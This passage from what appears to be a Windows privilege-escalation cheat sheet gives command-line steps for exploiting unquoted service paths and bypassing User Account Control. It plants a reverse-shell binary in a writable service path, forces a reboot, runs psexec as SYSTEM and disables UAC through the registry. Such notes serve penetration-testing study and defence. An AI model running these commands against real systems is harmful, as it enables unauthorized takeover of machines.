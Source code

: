```
cmd> shutdown /r /t 0
#OR
cmd> sc qc VulnService restart
```

### Services - Unquoted Paths

Conditions:
* Path to service is unquoted and has spaces.
* Running with LocalSystem or equivalent Administrative permissions.
* User should have write permissions to a folder in the path.
* User should have permission to start the service OR the service auto-restarts on shutdown/start-up.

Find unquoted paths with WMIC:
* Find all services with "auto" start mode (automatically starts at system start-up),
```
cmd> wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
``` 

Exploit steps:
1. Find unquoted service binpaths, for services run as ADMIN e.g. `binpath= C:\Program Files\A bad folder\adminservice.exe`.
2. Check if you have FULL/WRITE `(F)(W)` permissions along path using:

    a) `icacls "C:\Program Files\folder\A unquoted folder\adminservice.exe"` 

    b) `accesschk.exe -ucqv [/path/to/unquoted/folder] -accepteula`

3. Generate reverse shell payload and rename to path e.g. `A.exe`.
4. Place malicious binary in path, so that it is executed e.g. `move A.exe "C:\Program Files\folder"`.
5. Execute by restarting computer (if service has startmode = auto) with `shutdown /r /t 0`.

### User Account Control (UAC) Bypass

Even if you are a local admin, User Account Control (UAC) maybe turned on which may force your user to respond to **UAC credential/consent prompts** in order to perform privileged actions.
* UAC bypass walkthrough: https://ivanitlearning.wordpress.com/2019/07/07/bypassing-default-uac-settings-manually/

STEP 1: Check if we should perform UAC bypass
```
cmd> whoami /priv    # do we have very few privileges even as local admin?
cmd> whoami /groups  # is "Mandatgory Label\XXX Mandatory Level" set to MEDIUM?
cmd> psexec.exe -i -accepteula -d -s rshell.exe # are we getting issues running psexec as SYSTEM?

# check if UAC turned on
cmd> reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System
...
EnableLUA                  REG_DWORD 0x1 # if 0x1 = UAC ENABLED
ConsentPromptBehaviorAdmin REG_DWORD 0x5 # if NOT 0x0 = consent required
PromptOnSecureDesktop      REG_DWORD 0x1 # if 0x1 = Force all credential/consent prompts
...

# try to disable UAC
cmd> reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /d 0 /t REG_DWORD
```
